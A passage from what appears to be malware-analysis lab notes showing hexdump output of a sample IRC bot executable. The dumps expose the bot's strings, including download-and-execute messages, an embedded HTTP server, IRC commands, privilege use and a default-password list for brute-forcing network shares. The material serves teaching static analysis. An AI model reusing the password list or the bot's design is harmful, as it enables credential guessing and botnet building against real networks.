	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f919e394000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f919e5a7000)
\end{lstlisting}

\subsection{hexdump command}

The \lstinline|hexdump| command has a \lstinline|-C| option for Canonical (human readable) display.

For the lab
\lstinline|ircbot.exe| file, the output (truncated) is the following;
\begin{lstlisting}[basicstyle=\tiny]
  0000000 5a4d 0090 0003 0000 0004 0000 ffff 0000
  0000010 00b8 0000 0000 0000 0040 0000 0000 0000
  0000020 0000 0000 0000 0000 0000 0000 0000 0000
  0000030 0000 0000 0000 0000 0000 0000 00e0 0000
  0000040 1f0e 0eba b400 cd09 b821 4c01 21cd 6854
  0000050 7369 7020 6f72 7267 6d61 6320 6e61 6f6e
  0000060 2074 6562 7220 6e75 6920 206e 4f44 2053
  0000070 6f6d 6564 0d2e 0a0d 0024 0000 0000 0000
  0000080 e3e2 cf79 82a6 9c17 82a6 9c17 82a6 9c17
  0000090 9edd 9c1b 82a7 9c17 9e25 9c19 82b4 9c17
  00000a0 9d4e 9c1d 82fc 9c17 9dc4 9c04 82a3 9c17
  00000b0 82a6 9c16 82f0 9c17 9d4e 9c1c 82b5 9c17
  00000c0 6952 6863 82a6 9c17 0000 0000 0000 0000
  00000d0 0000 0000 0000 0000 0000 0000 0000 0000
  00000e0 4550 0000 014c 0005 d506 4f79 0000 0000
  00000f0 0000 0000 00e0 010f 010b 0006 2a00 0003
  0000100 4200 0006 0000 0000 ffee cc00 1000 0000
  0000110 1000 0000 0000 0040 1000 0000 0200 0000
  0000120 0004 0000 0000 0000 0004 0000 0000 0000
  0000130 a000 0009 1000 0000 0000 0000 0002 0000
  0000140 0000 0010 1000 0000 0000 0010 1000 0000
  0000150 0000 0000 0010 0000 0000 0000 0000 0000
  0000160 6000 0009 003c 0000 0000 0000 0000 0000
  0000170 0000 0000 0000 0000 0000 0000 0000 0000
  *
  00001d0 0000 0000 0000 0000 742e 7865 0074 0000
\end{lstlisting}

And with the \lstinline|-C| option (truncated);
\begin{lstlisting}[basicstyle=\tiny]
00000000  4d 5a 90 00 03 00 00 00  04 00 00 00 ff ff 00 00  |MZ..............|
00000010  b8 00 00 00 00 00 00 00  40 00 00 00 00 00 00 00  |........@.......|
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 e0 00 00 00  |................|
00000040  0e 1f ba 0e 00 b4 09 cd  21 b8 01 4c cd 21 54 68  |........!..L.!Th|
00000050  69 73 20 70 72 6f 67 72  61 6d 20 63 61 6e 6e 6f  |is program canno|
00000060  74 20 62 65 20 72 75 6e  20 69 6e 20 44 4f 53 20  |t be run in DOS |
00000070  6d 6f 64 65 2e 0d 0d 0a  24 00 00 00 00 00 00 00  |mode....$.......|
00000080  e2 e3 79 cf a6 82 17 9c  a6 82 17 9c a6 82 17 9c  |..y.............|
00000090  dd 9e 1b 9c a7 82 17 9c  25 9e 19 9c b4 82 17 9c  |........%.......|
000000a0  4e 9d 1d 9c fc 82 17 9c  c4 9d 04 9c a3 82 17 9c  |N...............|
000000b0  a6 82 16 9c f0 82 17 9c  4e 9d 1c 9c b5 82 17 9c  |........N.......|
000000c0  52 69 63 68 a6 82 17 9c  00 00 00 00 00 00 00 00  |Rich............|
000000d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000e0  50 45 00 00 4c 01 05 00  06 d5 79 4f 00 00 00 00  |PE..L.....yO....|
000000f0  00 00 00 00 e0 00 0f 01  0b 01 06 00 00 2a 03 00  |.............*..|
00000100  00 42 06 00 00 00 00 00  ee ff 00 cc 00 10 00 00  |.B..............|
00000110  00 10 00 00 00 00 40 00  00 10 00 00 00 02 00 00  |......@.........|
00000120  04 00 00 00 00 00 00 00  04 00 00 00 00 00 00 00  |................|
00000130  00 a0 09 00 00 10 00 00  00 00 00 00 02 00 00 00  |................|
00000140  00 00 10 00 00 10 00 00  00 00 10 00 00 10 00 00  |................|
00000150  00 00 00 00 10 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 60 09 00 3c 00 00 00  00 00 00 00 00 00 00 00  |.`..<...........|
00000170  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000001d0  00 00 00 00 00 00 00 00  2e 74 65 78 74 00 00 00  |.........text...|
000001e0  30 28 03 00 00 10 00 00  00 2a 03 00 00 04 00 00  |0(.......*......|
000001f0  00 00 00 00 00 00 00 00  00 00 00 00 20 00 00 60  |............ ..`|
00000200  2e 72 64 61 74 61 00 00  7a 42 00 00 00 40 03 00  |.rdata..zB...@..|
00000210  00 44 00 00 00 2e 03 00  00 00 00 00 00 00 00 00  |.D..............|
00000220  00 00 00 00 40 00 00 40  2e 64 61 74 61 00 00 00  |....@..@.data...|
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  00033270  66 0b df 40 f0 3b d8 37  53 ae bc a9 c5 9e bb de  |f..@.;.7S.......|
  00033280  7f cf b2 47 e9 ff b5 30  1c f2 bd bd 8a c2 ba ca  |...G...0........|
  00033290  30 93 b3 53 a6 a3 b4 24  05 36 d0 ba 93 06 d7 cd  |0..S...$.6......|
  000332a0  29 57 de 54 bf 67 d9 23  2e 7a 66 b3 b8 4a 61 c4  |)W.T.g.#.zf..Ja.|
  000332b0  02 1b 68 5d 94 2b 6f 2a  37 be 0b b4 a1 8e 0c c3  |..h].+o*7.......|
  000332c0  1b df 05 5a 8d ef 02 2d  00 00 00 00 00 00 00 00  |...Z...-........|
  000332d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
  *
  00033390  00 00 00 00 72 62 00 00  5b 44 4f 57 4e 4c 4f 41  |....rb..[DOWNLOA|
  000333a0  44 5d 3a 20 42 61 64 20  55 52 4c 2c 20 6f 72 20  |D]: Bad URL, or |
  000333b0  44 4e 53 20 45 72 72 6f  72 3a 20 25 73 2e 00 00  |DNS Error: %s...|
  000333c0  00 00 00 00 00 00 00 00  5b 44 4f 57 4e 4c 4f 41  |........[DOWNLOA|
  000333d0  44 5d 3a 20 55 70 64 61  74 65 20 66 61 69 6c 65  |D]: Update faile|
  000333e0  64 3a 20 45 72 72 6f 72  20 65 78 65 63 75 74 69  |d: Error executi|
  000333f0  6e 67 20 66 69 6c 65 3a  20 25 73 2e 00 00 00 00  |ng file: %s.....|
  00033400  00 00 00 00 00 00 00 00  00 00 00 00 5b 44 4f 57  |............[DOW|
  00033410  4e 4c 4f 41 44 5d 3a 20  44 6f 77 6e 6c 6f 61 64  |NLOAD]: Download|
  00033420  65 64 20 25 2e 31 66 4b  42 20 74 6f 20 25 73 20  |ed %.1fKB to %s |
  00033430  40 20 25 2e 31 66 4b 42  2f 73 65 63 2e 20 55 70  |@ %.1fKB/sec. Up|
  00033440  64 61 74 69 6e 67 2e 00  00 00 00 00 00 00 00 00  |dating..........|
  00033450  00 00 00 00 5b 44 4f 57  4e 4c 4f 41 44 5d 3a 20  |....[DOWNLOAD]: |
  00033460  4f 70 65 6e 65 64 3a 20  25 73 2e 00 00 00 00 00  |Opened: %s......|
  00033470  6f 70 65 6e 00 00 00 00  5b 44 4f 57 4e 4c 4f 41  |open....[DOWNLOA|
  00033480  44 5d 3a 20 44 6f 77 6e  6c 6f 61 64 65 64 20 25  |D]: Downloaded %|
  00033490  2e 31 66 20 4b 42 20 74  6f 20 25 73 20 40 20 25  |.1f KB to %s @ %|
  000334a0  2e 31 66 20 4b 42 2f 73  65 63 2e 00 00 00 00 00  |.1f KB/sec......|
  000334b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 90 40  |...............@|
  000334c0  00 00 00 00 5b 44 4f 57  4e 4c 4f 41 44 5d 3a 20  |....[DOWNLOAD]: |
  000334d0  43 52 43 20 46 61 69 6c  65 64 20 28 25 64 20 21  |CRC Failed (%d !|
  000334e0  3d 20 25 64 29 2e 00 00  00 00 00 00 00 00 00 00  |= %d)...........|
  000334f0  5b 44 4f 57 4e 4c 4f 41  44 5d 3a 20 46 69 6c 65  |[DOWNLOAD]: File|
  00033500  73 69 7a 65 20 69 73 20  69 6e 63 6f 72 72 65 63  |size is incorrec|
  00033510  74 3a 20 28 25 64 20 21  3d 20 25 64 29 2e 00 00  |t: (%d != %d)...|
  00033520  00 00 00 00 00 00 00 00  5b 44 4f 57 4e 4c 4f 41  |........[DOWNLOA|
  00033530  44 5d 3a 20 55 70 64 61  74 65 3a 20 25 73 20 28  |D]: Update: %s (|
  00033540  25 64 4b 42 20 74 72 61  6e 73 66 65 72 72 65 64  |%dKB transferred|
  00033550  29 2e 00 00 00 00 00 00  00 00 00 00 5b 44 4f 57  |)...........[DOW|
  00033560  4e 4c 4f 41 44 5d 3a 20  46 69 6c 65 20 64 6f 77  |NLOAD]: File dow|
  00033570  6e 6c 6f 61 64 3a 20 25  73 20 28 25 64 4b 42 20  |nload: %s (%dKB |
  00033580  74 72 61 6e 73 66 65 72  72 65 64 29 2e 00 00 00  |transferred)....|
  00033590  00 00 00 00 00 00 00 00  5b 44 4f 57 4e 4c 4f 41  |........[DOWNLOA|
  000335a0  44 5d 3a 20 43 6f 75 6c  64 6e 27 74 20 6f 70 65  |D]: Couldn't ope|
  000335b0  6e 20 66 69 6c 65 3a 20  25 73 2e 00 00 00 00 00  |n file: %s......|
  000335c0  00 00 00 00 3f 00 00 00  52 41 4d 00 43 64 72 6f  |....?...RAM.Cdro|
  000335d0  6d 00 00 00 4e 65 74 77  6f 72 6b 00 00 00 00 00  |m...Network.....|
  000335e0  44 69 73 6b 00 00 00 00  49 6e 76 61 6c 69 64 00  |Disk....Invalid.|
  000335f0  00 00 00 00 55 6e 6b 6e  6f 77 6e 00 00 00 00 00  |....Unknown.....|
  00033600  25 73 4b 42 00 00 00 00  66 61 69 6c 65 64 00 00  |%sKB....failed..|
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  000336e0  00 00 00 00 00 00 00 00  48 54 54 50 2f 31 2e 30  |........HTTP/1.0|
  000336f0  20 32 30 30 20 4f 4b 0d  0a 53 65 72 76 65 72 3a  | 200 OK..Server:|
  00033700  20 6d 79 42 6f 74 0d 0a  43 61 63 68 65 2d 43 6f  | myBot..Cache-Co|
  00033710  6e 74 72 6f 6c 3a 20 6e  6f 2d 63 61 63 68 65 2c  |ntrol: no-cache,|
  00033720  6e 6f 2d 73 74 6f 72 65  2c 6d 61 78 2d 61 67 65  |no-store,max-age|
  00033730  3d 30 0d 0a 70 72 61 67  6d 61 3a 20 6e 6f 2d 63  |=0..pragma: no-c|
  00033740  61 63 68 65 0d 0a 43 6f  6e 74 65 6e 74 2d 54 79  |ache..Content-Ty|
  00033750  70 65 3a 20 25 73 0d 0a  43 6f 6e 74 65 6e 74 2d  |pe: %s..Content-|
  00033760  4c 65 6e 67 74 68 3a 20  25 69 0d 0a 41 63 63 65  |Length: %i..Acce|
  00033770  70 74 2d 52 61 6e 67 65  73 3a 20 62 79 74 65 73  |pt-Ranges: bytes|
  00033780  0d 0a 44 61 74 65 3a 20  25 73 20 25 73 20 47 4d  |..Date: %s %s GM|
  00033790  54 0d 0a 4c 61 73 74 2d  4d 6f 64 69 66 69 65 64  |T..Last-Modified|
  000337a0  3a 20 25 73 20 25 73 20  47 4d 54 0d 0a 45 78 70  |: %s %s GMT..Exp|
  000337b0  69 72 65 73 3a 20 25 73  20 25 73 20 47 4d 54 0d  |ires: %s %s GMT.|
  000337c0  0a 43 6f 6e 6e 65 63 74  69 6f 6e 3a 20 63 6c 6f  |.Connection: clo|
  000337d0  73 65 0d 0a 0d 0a 00 00  00 00 00 00 00 00 00 00  |se..............|
  000337e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
  *
  00033800  00 00 00 00 00 00 00 00  48 54 54 50 2f 31 2e 30  |........HTTP/1.0|
  00033810  20 32 30 30 20 4f 4b 0d  0a 53 65 72 76 65 72 3a  | 200 OK..Server:|
  00033820  20 6d 79 42 6f 74 0d 0a  43 61 63 68 65 2d 43 6f  | myBot..Cache-Co|
  00033830  6e 74 72 6f 6c 3a 20 6e  6f 2d 63 61 63 68 65 2c  |ntrol: no-cache,|
  00033840  6e 6f 2d 73 74 6f 72 65  2c 6d 61 78 2d 61 67 65  |no-store,max-age|
  00033850  3d 30 0d 0a 70 72 61 67  6d 61 3a 20 6e 6f 2d 63  |=0..pragma: no-c|
  00033860  61 63 68 65 0d 0a 43 6f  6e 74 65 6e 74 2d 54 79  |ache..Content-Ty|
  00033870  70 65 3a 20 25 73 0d 0a  41 63 63 65 70 74 2d 52  |pe: %s..Accept-R|
  00033880  61 6e 67 65 73 3a 20 62  79 74 65 73 0d 0a 44 61  |anges: bytes..Da|
  00033890  74 65 3a 20 25 73 20 25  73 20 47 4d 54 0d 0a 4c  |te: %s %s GMT..L|
  000338a0  61 73 74 2d 4d 6f 64 69  66 69 65 64 3a 20 25 73  |ast-Modified: %s|
  000338b0  20 25 73 20 47 4d 54 0d  0a 45 78 70 69 72 65 73  | %s GMT..Expires|
  000338c0  3a 20 25 73 20 25 73 20  47 4d 54 0d 0a 43 6f 6e  |: %s %s GMT..Con|
  000338d0  6e 65 63 74 69 6f 6e 3a  20 63 6c 6f 73 65 0d 0a  |nection: close..|
  000338e0  0d 0a 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
  000338f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
  *
  00033910  48 48 3a 6d 6d 3a 73 73  00 00 00 00 64 64 64 2c  |HH:mm:ss....ddd,|
  00033920  20 64 64 20 4d 4d 4d 20  79 79 79 79 00 00 00 00  | dd MMM yyyy....|
  00033930  61 70 70 6c 69 63 61 74  69 6f 6e 2f 6f 63 74 65  |application/octe|
  00033940  74 2d 73 74 72 65 61 6d  00 00 00 00 00 00 00 00  |t-stream........|
  00033950  74 65 78 74 2f 68 74 6d  6c 00 00 00 5b 48 54 54  |text/html...[HTT|
  00033960  50 44 5d 3a 20 46 61 69  6c 65 64 20 74 6f 20 73  |PD]: Failed to s|
  00033970  74 61 72 74 20 77 6f 72  6b 65 72 20 74 68 72 65  |tart worker thre|
  00033980  61 64 2c 20 65 72 72 6f  72 3a 20 3c 25 64 3e 2e  |ad, error: <%d>.|
  00033990  00 00 00 00 00 00 00 00  00 00 00 00 5b 48 54 54  |............[HTT|
  000339a0  50 44 5d 3a 20 57 6f 72  6b 65 72 20 74 68 72 65  |PD]: Worker thre|
  000339b0  61 64 20 6f 66 20 73 65  72 76 65 72 20 74 68 72  |ad of server thr|
  000339c0  65 61 64 3a 20 25 64 2e  00 00 00 00 00 00 00 00  |ead: %d.........|
  000339d0  00 00 00 00 2a 00 00 00  0a 00 00 00 25 73 25 73  |....*.......%s%s|
  000339e0  00 00 00 00 25 73 00 00  5c 25 73 00 46 6f 75 6e  |....%s..\%s.Foun|
  000339f0  64 3a 20 25 69 20 46 69  6c 65 73 20 61 6e 64 20  |d: %i Files and |
  00033a00  25 69 20 44 69 72 65 63  74 6f 72 69 65 73 0d 0a  |%i Directories..|
  00033a10  00 00 00 00 00 00 00 00  3c 54 52 3e 0d 0a 3c 54  |........<TR>..<T|
  00033a20  44 20 43 4f 4c 53 50 41  4e 3d 22 33 22 3e 3c 48  |D COLSPAN="3"><H|
  00033a30  52 3e 3c 2f 54 44 3e 0d  0a 3c 2f 54 52 3e 0d 0a  |R></TD>..</TR>..|
  00033a40  3c 2f 54 41 42 4c 45 3e  0d 0a 3c 2f 42 4f 44 59  |</TABLE>..</BODY|
  00033a50  3e 0d 0a 3c 2f 48 54 4d  4c 3e 0d 0a 00 00 00 00  |>..</HTML>......|
  00033a60  00 00 00 00 00 00 00 00  00 00 00 00 50 52 49 56  |............PRIV|
  00033a70  4d 53 47 20 25 73 20 3a  46 6f 75 6e 64 20 25 73  |MSG %s :Found %s|
  00033a80  20 46 69 6c 65 73 20 61  6e 64 20 25 73 20 44 69  | Files and %s Di|
  00033a90  72 65 63 74 6f 72 69 65  73 0a 00 00 00 00 00 00  |rectories.......|
  00033aa0  00 00 00 00 25 2d 33 31  73 20 20 25 2d 32 31 73  |....%-31s  %-21s|
  00033ab0  20 28 25 69 20 62 79 74  65 73 29 0d 0a 00 00 00  | (%i bytes).....|
  00033ac0  00 00 00 00 3c 2f 54 44  3e 0d 0a 3c 54 44 20 57  |....</TD>..<TD W|
  00033ad0  49 44 54 48 3d 22 25 64  22 3e 3c 43 4f 44 45 3e  |IDTH="%d"><CODE>|
  00033ae0  25 73 3c 2f 43 4f 44 45  3e 3c 2f 54 44 3e 0d 0a  |%s</CODE></TD>..|
  00033af0  3c 54 44 20 57 49 44 54  48 3d 22 25 64 22 20 41  |<TD WIDTH="%d" A|
  00033b00  4c 49 47 4e 3d 22 72 69  67 68 74 22 3e 3c 43 4f  |LIGN="right"><CO|
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  00034070  53 51 4c 44 69 73 63 6f  6e 6e 65 63 74 00 00 00  |SQLDisconnect...|
  00034080  53 51 4c 46 72 65 65 48  61 6e 64 6c 65 00 00 00  |SQLFreeHandle...|
  00034090  53 51 4c 41 6c 6c 6f 63  48 61 6e 64 6c 65 00 00  |SQLAllocHandle..|
  000340a0  00 00 00 00 53 51 4c 45  78 65 63 44 69 72 65 63  |....SQLExecDirec|
  000340b0  74 00 00 00 53 51 4c 53  65 74 45 6e 76 41 74 74  |t...SQLSetEnvAtt|
  000340c0  72 00 00 00 53 51 4c 44  72 69 76 65 72 43 6f 6e  |r...SQLDriverCon|
  000340d0  6e 65 63 74 00 00 00 00  6f 64 62 63 33 32 2e 64  |nect....odbc32.d|
  000340e0  6c 6c 00 00 00 00 00 00  53 48 43 68 61 6e 67 65  |ll......SHChange|
  000340f0  4e 6f 74 69 66 79 00 00  00 00 00 00 53 68 65 6c  |Notify......Shel|
  00034100  6c 45 78 65 63 75 74 65  41 00 00 00 73 68 65 6c  |lExecuteA...shel|
  00034110  6c 33 32 2e 64 6c 6c 00  00 00 00 00 57 4e 65 74  |l32.dll.....WNet|
  00034120  43 61 6e 63 65 6c 43 6f  6e 6e 65 63 74 69 6f 6e  |CancelConnection|
  00034130  32 57 00 00 00 00 00 00  57 4e 65 74 43 61 6e 63  |2W......WNetCanc|
  00034140  65 6c 43 6f 6e 6e 65 63  74 69 6f 6e 32 41 00 00  |elConnection2A..|
  00034150  00 00 00 00 57 4e 65 74  41 64 64 43 6f 6e 6e 65  |....WNetAddConne|
  00034160  63 74 69 6f 6e 32 57 00  00 00 00 00 57 4e 65 74  |ction2W.....WNet|
  00034170  41 64 64 43 6f 6e 6e 65  63 74 69 6f 6e 32 41 00  |AddConnection2A.|
  00034180  00 00 00 00 6d 70 72 2e  64 6c 6c 00 00 00 00 00  |....mpr.dll.....|
  00034190  44 65 6c 65 74 65 49 70  4e 65 74 45 6e 74 72 79  |DeleteIpNetEntry|
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  00034a60  53 68 65 6c 6c 33 32 2e  64 6c 6c 20 66 61 69 6c  |Shell32.dll fail|
  00034a70  65 64 2e 20 3c 25 64 3e  00 00 00 00 00 00 00 00  |ed. <%d>........|
  00034a80  4d 70 72 33 32 2e 64 6c  6c 20 66 61 69 6c 65 64  |Mpr32.dll failed|
  00034a90  2e 20 3c 25 64 3e 00 00  00 00 00 00 49 70 68 6c  |. <%d>......Iphl|
  00034aa0  70 61 70 69 2e 64 6c 6c  20 66 61 69 6c 65 64 2e  |papi.dll failed.|
  00034ab0  20 3c 25 64 3e 00 00 00  00 00 00 00 44 6e 73 61  | <%d>.......Dnsa|
  00034ac0  70 69 2e 64 6c 6c 20 66  61 69 6c 65 64 2e 20 3c  |pi.dll failed. <|
  00034ad0  25 64 3e 00 00 00 00 00  4e 65 74 61 70 69 33 32  |%d>.....Netapi32|
  00034ae0  2e 64 6c 6c 20 66 61 69  6c 65 64 2e 20 3c 25 64  |.dll failed. <%d|
  00034af0  3e 00 00 00 00 00 00 00  49 63 6d 70 2e 64 6c 6c  |>.......Icmp.dll|
  00034b00  20 66 61 69 6c 65 64 2e  20 3c 25 64 3e 00 00 00  | failed. <%d>...|
  00034b10  00 00 00 00 57 69 6e 69  6e 65 74 2e 64 6c 6c 20  |....Wininet.dll |
  00034b20  66 61 69 6c 65 64 2e 20  3c 25 64 3e 00 00 00 00  |failed. <%d>....|
  00034b30  00 00 00 00 57 73 32 5f  33 32 2e 64 6c 6c 20 66  |....Ws2_32.dll f|
  00034b40  61 69 6c 65 64 2e 20 3c  25 64 3e 00 00 00 00 00  |ailed. <%d>.....|
  00034b50  47 64 69 33 32 2e 64 6c  6c 20 66 61 69 6c 65 64  |Gdi32.dll failed|
  00034b60  2e 20 3c 25 64 3e 00 00  00 00 00 00 41 64 76 61  |. <%d>......Adva|
  00034b70  70 69 33 32 2e 64 6c 6c  20 66 61 69 6c 65 64 2e  |pi32.dll failed.|
  00034b80  20 3c 25 64 3e 00 00 00  00 00 00 00 55 73 65 72  | <%d>.......User|
  00034b90  33 32 2e 64 6c 6c 20 66  61 69 6c 65 64 2e 20 3c  |32.dll failed. <|
  00034ba0  25 64 3e 00 00 00 00 00  4b 65 72 6e 65 6c 33 32  |%d>.....Kernel32|
  00034bb0  2e 64 6c 6c 20 66 61 69  6c 65 64 2e 20 3c 25 64  |.dll failed. <%d|
  00034bc0  3e 00 00 00 00 00 00 00  69 6e 74 72 61 6e 65 74  |>.......intranet|
  00034bd0  00 00 00 00 6c 61 6e 00  6d 61 69 6e 00 00 00 00  |....lan.main....|
  00034be0  77 69 6e 70 61 73 73 00  00 00 00 00 62 6c 61 6e  |winpass.....blan|
  00034bf0  6b 00 00 00 6f 66 66 69  63 65 00 00 63 6f 6e 74  |k...office..cont|
  00034c00  72 6f 6c 00 00 00 00 00  78 70 00 00 6e 6f 6b 69  |rol.....xp..noki|
  00034c10  61 00 00 00 68 70 00 00  73 69 65 6d 65 6e 73 00  |a...hp..siemens.|
  00034c20  00 00 00 00 63 6f 6d 70  61 71 00 00 64 65 6c 6c  |....compaq..dell|
  00034c30  00 00 00 00 63 69 73 63  6f 00 00 00 69 62 6d 00  |....cisco...ibm.|
  00034c40  6f 72 61 69 6e 73 74 61  6c 6c 00 00 00 00 00 00  |orainstall......|
  00034c50  73 71 6c 70 61 73 73 6f  61 69 6e 73 74 61 6c 6c  |sqlpassoainstall|
  00034c60  00 00 00 00 73 71 6c 00  73 61 00 00 64 62 31 32  |....sql.sa..db12|
  00034c70  33 34 00 00 64 62 31 00  64 61 74 61 62 61 73 65  |34..db1.database|
  00034c80  70 61 73 73 77 6f 72 64  00 00 00 00 64 61 74 61  |password....data|
  00034c90  00 00 00 00 64 61 74 61  62 61 73 65 70 61 73 73  |....databasepass|
  00034ca0  00 00 00 00 64 62 70 61  73 73 77 6f 72 64 00 00  |....dbpassword..|
  00034cb0  00 00 00 00 64 62 70 61  73 73 00 00 61 63 63 65  |....dbpass..acce|
  00034cc0  73 73 00 00 64 6f 6d 61  69 6e 70 61 73 73 77 6f  |ss..domainpasswo|
  00034cd0  72 64 00 00 00 00 00 00  64 6f 6d 61 69 6e 70 61  |rd......domainpa|
  00034ce0  73 73 00 00 00 00 00 00  64 6f 6d 61 69 6e 00 00  |ss......domain..|
  00034cf0  68 65 6c 6c 6f 00 00 00  68 65 6c 6c 00 00 00 00  |hello...hell....|
  00034d00  67 6f 64 00 73 65 78 00  73 6c 75 74 00 00 00 00  |god.sex.slut....|
  00034d10  62 69 74 63 68 00 00 00  66 75 63 6b 00 00 00 00  |bitch...fuck....|
  00034d20  65 78 63 68 61 6e 67 65  00 00 00 00 62 61 63 6b  |exchange....back|
  00034d30  75 70 00 00 74 65 63 68  6e 69 63 61 6c 00 00 00  |up..technical...|
  00034d40  6c 6f 67 69 6e 70 61 73  73 00 00 00 6c 6f 67 69  |loginpass...logi|
  00034d50  6e 00 00 00 6d 61 72 79  00 00 00 00 6b 61 74 69  |n...mary....kati|
  00034d60  65 00 00 00 6b 61 74 65  00 00 00 00 67 65 6f 72  |e...kate....geor|
  00034d70  67 65 00 00 65 72 69 63  00 00 00 00 63 68 72 69  |ge..eric....chri|
  00034d80  73 00 00 00 69 61 6e 00  6e 65 69 6c 00 00 00 00  |s...ian.neil....|
  00034d90  6c 65 65 00 62 72 69 61  6e 00 00 00 73 75 73 61  |lee.brian...susa|
  00034da0  6e 00 00 00 73 75 65 00  73 61 6d 00 6c 75 6b 65  |n...sue.sam.luke|
  00034db0  00 00 00 00 70 65 74 65  72 00 00 00 6a 6f 68 6e  |....peter...john|
  00034dc0  00 00 00 00 6d 69 6b 65  00 00 00 00 62 69 6c 6c  |....mike....bill|
  00034dd0  00 00 00 00 66 72 65 64  00 00 00 00 6a 6f 65 00  |....fred....joe.|
  00034de0  6a 65 6e 00 62 6f 62 00  71 77 65 00 7a 78 63 00  |jen.bob.qwe.zxc.|
  00034df0  61 73 64 00 71 61 7a 00  77 69 6e 32 30 30 30 00  |asd.qaz.win2000.|
  00034e00  00 00 00 00 77 69 6e 6e  74 00 00 00 77 69 6e 78  |....winnt...winx|
  00034e10  70 00 00 00 77 69 6e 32  6b 00 00 00 77 69 6e 39  |p...win2k...win9|
  00034e20  38 00 00 00 77 69 6e 64  6f 77 73 00 00 00 00 00  |8...windows.....|
  00034e30  6f 65 6d 69 6e 73 74 61  6c 6c 00 00 00 00 00 00  |oeminstall......|
  00034e40  6f 65 6d 75 73 65 72 00  00 00 00 00 6f 65 6d 00  |oemuser.....oem.|
  00034e50  75 73 65 72 00 00 00 00  68 6f 6d 65 75 73 65 72  |user....homeuser|
  00034e60  00 00 00 00 68 6f 6d 65  00 00 00 00 61 63 63 6f  |....home....acco|
  00034e70  75 6e 74 69 6e 67 00 00  00 00 00 00 61 63 63 6f  |unting......acco|
  00034e80  75 6e 74 73 00 00 00 00  69 6e 74 65 72 6e 65 74  |unts....internet|
  00034e90  00 00 00 00 77 77 77 00  77 65 62 00 6f 75 74 6c  |....www.web.outl|
  00034ea0  6f 6f 6b 00 00 00 00 00  6d 61 69 6c 00 00 00 00  |ook.....mail....|
  00034eb0  71 77 65 72 74 79 00 00  6e 75 6c 6c 00 00 00 00  |qwerty..null....|
  00034ec0  73 65 72 76 65 72 00 00  73 79 73 74 65 6d 00 00  |server..system..|
  00034ed0  63 68 61 6e 67 65 6d 65  00 00 00 00 6c 69 6e 75  |changeme....linu|
  00034ee0  78 00 00 00 75 6e 69 78  00 00 00 00 64 65 6d 6f  |x...unix....demo|
  00034ef0  00 00 00 00 6e 6f 6e 65  00 00 00 00 74 65 73 74  |....none....test|
  00034f00  00 00 00 00 32 30 30 34  00 00 00 00 32 30 30 33  |....2004....2003|
  00034f10  00 00 00 00 32 30 30 32  00 00 00 00 32 30 30 31  |....2002....2001|
  00034f20  00 00 00 00 32 30 30 30  00 00 00 00 31 32 33 34  |....2000....1234|
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  00035290  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
  000352a0  25 73 64 65 6c 2e 62 61  74 00 00 00 5b 46 4c 55  |%sdel.bat...[FLU|
  000352b0  53 48 44 4e 53 5d 3a 20  4e 6f 74 20 73 75 70 70  |SHDNS]: Not supp|
  000352c0  6f 72 74 65 64 20 62 79  20 74 68 69 73 20 73 79  |orted by this sy|
  000352d0  73 74 65 6d 2e 00 00 00  00 00 00 00 00 00 00 00  |stem............|
  000352e0  5b 46 4c 55 53 48 44 4e  53 5d 3a 20 41 52 50 20  |[FLUSHDNS]: ARP |
  000352f0  63 61 63 68 65 20 69 73  20 65 6d 70 74 79 2e 00  |cache is empty..|
  00035300  00 00 00 00 00 00 00 00  5b 46 4c 55 53 48 44 4e  |........[FLUSHDN|
  00035310  53 5d 3a 20 55 6e 61 62  6c 65 20 74 6f 20 61 6c  |S]: Unable to al|
  00035320  6c 6f 63 61 74 69 6f 6e  20 41 52 50 20 63 61 63  |location ARP cac|
  00035330  68 65 2e 00 00 00 00 00  00 00 00 00 5b 46 4c 55  |he..........[FLU|
  00035340  53 48 44 4e 53 5d 3a 20  45 72 72 6f 72 20 67 65  |SHDNS]: Error ge|
  00035350  74 74 69 6e 67 20 41 52  50 20 63 61 63 68 65 3a  |tting ARP cache:|
  00035360  20 3c 25 64 3e 2e 00 00  00 00 00 00 00 00 00 00  | <%d>...........|
  00035370  25 64 2e 25 64 2e 25 64  2e 25 64 00 00 00 00 00  |%d.%d.%d.%d.....|
  00035380  20 25 73 20 28 25 64 29  00 00 00 00 53 65 44 65  | %s (%d)....SeDe|
  00035390  62 75 67 50 72 69 76 69  6c 65 67 65 00 00 00 00  |bugPrivilege....|
  000353a0  5b 50 52 4f 43 5d 3a 20  50 72 6f 63 65 73 73 20  |[PROC]: Process |
  000353b0  6c 69 73 74 20 66 61 69  6c 65 64 2e 00 00 00 00  |list failed.....|
  000353c0  00 00 00 00 5b 50 52 4f  43 5d 3a 20 50 72 6f 63  |....[PROC]: Proc|
  000353d0  65 73 73 20 6c 69 73 74  20 63 6f 6d 70 6c 65 74  |ess list complet|
  000353e0  65 64 2e 00 00 00 00 00  00 00 00 00 5b 50 52 4f  |ed..........[PRO|
  000353f0  43 5d 3a 20 4c 69 73 74  69 6e 67 20 70 72 6f 63  |C]: Listing proc|
  00035400  65 73 73 65 73 3a 00 00  00 00 00 00 5b 4d 41 49  |esses:......[MAI|
  00035410  4e 5d 3a 20 43 6f 6e 6e  65 63 74 65 64 20 74 6f  |N]: Connected to|
  00035420  20 25 73 2e 00 00 00 00  00 00 00 00 4e 49 43 4b  | %s.........NICK|
